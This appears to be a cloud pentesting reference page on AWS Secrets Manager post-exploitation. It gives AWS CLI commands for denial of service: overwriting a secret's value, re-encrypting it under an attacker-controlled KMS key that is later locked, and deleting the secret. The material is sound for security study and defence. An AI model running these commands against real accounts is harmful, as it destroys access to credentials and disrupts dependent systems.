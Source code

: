 # AWS - Secrets Manager Post Exploitation

## Secrets Manager

For more information check:

[[../aws-services/aws-secrets-manager-enum.md]]

### Read Secrets

The **secrets themself are sensitive information**, [check the privesc page](../aws-privilege-escalation/aws-secrets-manager-privesc.md) to learn how to read them.

### DoS Change Secret Value

Changing the value of the secret you could **DoS all the system that depends on that value.**

> [!WARNING]
> Note that previous values are also stored, so it's easy to just go back to the previous value.

```bash
# Requires permission secretsmanager:PutSecretValue
aws secretsmanager put-secret-value \
    --secret-id MyTestSecret \
    --secret-string "{\"user\":\"diegor\",\"password\":\"EXAMPLE-PASSWORD\"}"
```

### DoS Change KMS key

If the attacker has the secretsmanager:UpdateSecret permission, they can configure the secret to use a KMS key owned by the attacker. That key is initially set up in such a way that anyone can access and use it, so updating the secret with the new key is possible. If the key was not accessible, the secret could not be updated.

After changing the key for the secret, the attacker modifies the configuration of their key so that only they can access it. This way, in the subsequent versions of the secret, it will be encrypted with the new key, and since there is no access to it, the ability to retrieve the secret would be lost.

It is important to note that this inaccessibility will only occur in later versions, after the content of the secret changes, since the current version is still encrypted with the original KMS key.

```bash
aws secretsmanager update-secret \
    --secret-id MyTestSecret \
    --kms-key-id arn:aws:kms:us-west-2:123456789012:key/EXAMPLE1-90ab-cdef-fedc-ba987EXAMPLE
```

### DoS Deleting Secret

The minimum number of days to delete a secret are 7

```bash
aws secretsmanager delete-secret \
    --secret-id MyTestSecret \
    --recovery-window-in-days 7
```

